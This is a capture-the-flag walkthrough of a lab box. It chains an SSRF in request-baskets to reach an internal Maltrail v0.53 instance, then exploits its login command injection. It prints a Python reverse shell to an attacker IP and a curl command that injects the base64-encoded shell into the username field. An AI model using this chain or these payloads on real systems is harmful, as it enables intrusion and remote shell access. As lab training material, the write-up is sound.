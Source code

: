 ### Recon
Basic enumeration via nmap:
```
nmap -Pn -A -sV -o nmap_res 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (2.0s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|  
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     
|_    Content-Length: 0
```
PORTS: 22,80,55555 -> 2 open and 1 filtered
***
# PORT 55555
A web interface runs on this port 
![[Pasted image 20230709220509.png]]
we create a new basket:
![[Pasted image 20230709220807.png]]

XMnt4RoF-G5U21njmkPZcfvDpu0WyvjsQyKOVxbVNrmm
when we send request to the link:
`http://10.10.11.224:55555/babesket` it logs it 

There are several options that we can see
![[Pasted image 20230709221713.png]]
With this functionality we can redirect the request sent to this basket to any url we paste here 
![[Pasted image 20230709221735.png]]

and set the response to the `GET` request like:
![[Pasted image 20230709221758.png]]
it responses:
![[Pasted image 20230709222155.png]]
also looking at the bottom of the page:
![[Pasted image 20230712182301.png]]
searching for any vulnerability we find:
![[Pasted image 20230712182334.png]]
***
# PORT 80
remember the functionality to send the request above? we can setup the request and we can see that the request is sent to the url that we provided "by the server itself" meaning the server itself is sending the reqeust , how do I know : I read it here:
![[https://notes.sjtu.edu.cn/s/MUUhEymt7#]]
and I also fired up nc and set the url to that port , so it was only curl
unfortunately nc won't work here , so we got port 80 above as filtered , let's setup the url `http://127.0.0.1:80/` to the server , when we do that we see this page pops up:
![[Pasted image 20230712181527.png]]
at the bottom we see that it is written : `mailtrail (v0.53)`
looking for this gives us that there is a vulnerability for it and that too of `OS-Command` injection , making it RCE...Perfect!!!
we set the url again but add the login endpoint too , why?
![[Pasted image 20230712181444.png]]

we get the hint from this writeup:
![[https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661]]
we craft our payload and hope it has python :

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.22",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

then we encode it to base64:
```
curl 'http://10.10.11.224:55555/mahesh_dalla/' \  --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjIyIiw4MDgwKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```
***
# PORT 22
and boom we get the user shell:
![[Pasted image 20230712181040.png]]

![[Pasted image 20230712181104.png]]

`d9b6d0e51264d70abf524a0f68e69f82`

